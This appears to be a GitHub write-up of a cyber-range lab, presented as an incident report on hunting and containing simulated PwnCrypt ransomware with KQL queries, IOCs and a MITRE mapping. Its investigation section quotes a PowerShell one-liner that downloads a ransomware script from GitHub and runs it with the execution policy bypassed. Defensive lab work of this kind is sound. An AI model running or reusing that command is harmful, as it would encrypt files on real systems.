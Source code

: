 

# Zero-Day Ransomware (PwnCrypt) Outbreak Project 
## 🛡️ Incident Report: PwnCrypt Ransomware Detection and Containment

# Objective:
Identify any suspicious zero-day PwnCrypt ransomware infection, isolate the affected system, and prevent lateral movement within the corporate network.

---
# Tools & Technology:
- Azure Virtual Machine
- PowerShell 
- Microsoft Defender
- KQL Query

---
# Table of contents

- [1. Summary](#1-summary)
- [2. Preparation](#2-preparation)
- [3. Data Collection](#3-data-collection)
- [4. Data Analysis](#4-data-analysis)
- [5. Investigation](#5-investigation)
- [6. Response](#6-response)
- [7. MITRE ATT&CK Mapping](#7-mitre-attck-mapping)
- [8. Lessons Learned / Improvement:](#8-lessons-learned--improvement)
- [9. Final Status](#9-final-status)
---



## 1. Summary
Incident Title: PwnCrypt Ransomware Detection and Containment <br />
Date Identified: June 21, 2025 <br />
Reported By: Security Operations Team <br />
Affected Asset: fe-vmlab (Windows Endpoint) <br />
Investigator: Fe Esguerra <br />
Severity: High <br />


## 2. Preparation
### Goal:
A newly identified ransomware variant known as PwnCrypt has been reported in the wild. This strain uses a PowerShell-based payload to encrypt files on compromised systems with AES-256 encryption. It specifically targets directories such as C:\Users\Public\Desktop, appending a .pwncrypt tag to file names (e.g., hello.txt becomes hello.pwncrypt.txt). Due to the potential risk of this ransomware spreading within the corporate environment, the CISO has requested a proactive investigation across the organization’s systems.


### Hypothesis:
Given the organization's relatively immature security posture—particularly the lack of user awareness training—there is a credible concern that the ransomware may already be present within the network. The investigation should begin by searching for known indicators of compromise (IOCs), such as files containing the .pwncrypt string in their names.


## 3. Data Collection
### Data Sources Queried:
#### DeviceFileEvents
```kql
DeviceFileEvents
| take 20
```
![zero1](https://github.com/user-attachments/assets/e8264fa2-66b3-471d-ac3f-9c84f497029d)

```kql
DeviceFileEvents
| where DeviceName == "fe-vmlab"
| order by Timestamp desc 

```
![zero2](https://github.com/user-attachments/assets/45932041-4d9e-4f3b-b0f9-536382eee67c)



## 4. Data Analysis

#### DeviceFileEvents
```kql
let VMName = "fe-vmlab";
DeviceFileEvents
| where DeviceName == VMName
| where FileName contains "_pwncrypt"
| order by Timestamp desc
```

![zero-day](https://github.com/user-attachments/assets/c91508e3-0f13-4170-a35e-53276ee4b864)

#### DeviceProcessEvents
```kql
let VMName = "fe-vmlab";
let specificTime = datetime(2025-06-21T17:21:52.5530575Z);
DeviceProcessEvents
| where DeviceName == VMName
| where Timestamp between ((specificTime - 3m) .. (specificTime + 3m))
| order by Timestamp desc

```

![zero4](https://github.com/user-attachments/assets/c05a2b44-f070-4ef9-9dee-fffab6fe2fd5)

#### Findings

Upon reviewing the PowerShell script, it was observed that it performs the following actions:

- Downloads another PowerShell script from a GitHub repository

- Saves the downloaded script to C:\ProgramData\pwncrypt.ps1

- Executes the script while bypassing the system’s configured execution policy

![zero5](https://github.com/user-attachments/assets/2d747650-a6d6-4b26-9e0f-77b94ef44264)



## 5. Investigation

### Initial Discovery
•	Source of Threat: PowerShell command run locally on the host:
```ps
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1' -OutFile 'C:\programdata\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1
```

### Observed Behavior: 
Files on the desktop were encrypted with _pwncrypt added to their names (e.g., report.docx_pwncrypt.docx).
#### Indicators of Compromise (IOCs)
-	File name patterns: *pwncrypt*
-	Command-line execution from PowerShell
-	Location: C:\ProgramData\pwncrypt.ps1
-	Network activity: None observed during encryption window
####  Timeline of Events

| Time (UTC)    | Event                                                 |
| ------------- | ----------------------------------------------------- |
| 17:21:52      | `.pwncrypt` file detected in `DeviceFileEvents`       |
| ±3 mins       | PowerShell script downloaded and executed from GitHub |
| Immediate     | Files began being encrypted and renamed               |
| Shortly after | Host `fe-vmlab` was isolated from the network         |


## 6. Response
### Actions Taken:

- Isolated the host from the network. 
- Reimaging of the affected endpoint.


## 7. MITRE ATT&CK Mapping

- T1059.001 – PowerShell  
- T1204.002 – User Execution: Malicious File  
- T1105 – Ingress Tool Transfer  
- T1486 – Data Encrypted for Impact  
- T1005 – Data from Local System  
- T1036 – Masquerading (potential)  
- T1027 – Obfuscated Files or Information (potential)


## 8. Lessons Learned / Improvement: 

Review PowerShell execution policies and endpoint monitoring rules

## 9. Final Status

Threat Contained: ✅

Device Isolated: ✅

Device Action: Ticket submitted for full rebuild




